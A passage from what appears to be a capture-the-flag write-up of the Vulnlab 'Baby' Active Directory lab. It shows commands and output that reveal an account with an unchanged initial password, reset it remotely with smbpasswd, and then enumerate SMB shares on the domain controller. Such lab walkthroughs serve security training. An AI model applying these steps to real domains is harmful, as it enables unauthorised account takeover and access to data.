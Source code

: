 ```                                                                    
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
```

We see that most accounts failed to authenticate, but the last one returned STATUS_PASSWORD_MUST_CHANGE. This means that Caroline.Robinson never changed her initial password.

Now the question is: can we remotely change this password? The answer is YES. We will use the smbpasswd tool.

```bash
┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ sudo smbpasswd -U caroline.robinson -r 10.10.118.21                  
Old SMB password:
New SMB password:
Retype new SMB password:
```

```
Password changed for user caroline.robinson on 10.10.118.21.
```

We successfully changed Caroline.Robinson's password. Now let's verify our access:

```bash
┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ sudo nxc ldap 10.10.118.21 -u 'caroline.robinson' -p 'BabyStart1234!'
SMB         10.10.118.21    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
LDAP        10.10.118.21    389    BABYDC           [+] baby.vl\caroline.robinson:BabyStart1234! (Pwn3d!)
```

We now have valid domain credentials! 

## Exploring SMB with Valid Credentials

Now that we have a valid domain user account, `caroline.robinson`, we can use it to explore SMB shares, which were previously inaccessible.


```bash
┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ sudo nxc smb 10.10.118.21 -u 'caroline.robinson' -p 'BabyStart1234!' --shares
```

```
SMB         10.10.118.21    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.118.21    445    BABYDC           [+] baby.vl\caroline.robinson:BabyStart1234! 
SMB         10.10.118.21    445    BABYDC           [*] Enumerated shares
SMB         10.10.118.21    445    BABYDC           Share           Permissions     Remark
SMB         10.10.118.21    445    BABYDC           -----           -----------     ------
SMB         10.10.118.21    445    BABYDC           ADMIN$          READ            Remote Admin
SMB         10.10.118.21    445    BABYDC           C$              READ,WRITE      Default share
SMB         10.10.118.21    445    BABYDC           IPC$            READ            Remote IPC
SMB         10.10.118.21    445    BABYDC           NETLOGON        READ            Logon server share 
SMB         10.10.118.21    445    BABYDC           SYSVOL          READ            Logon server share
```
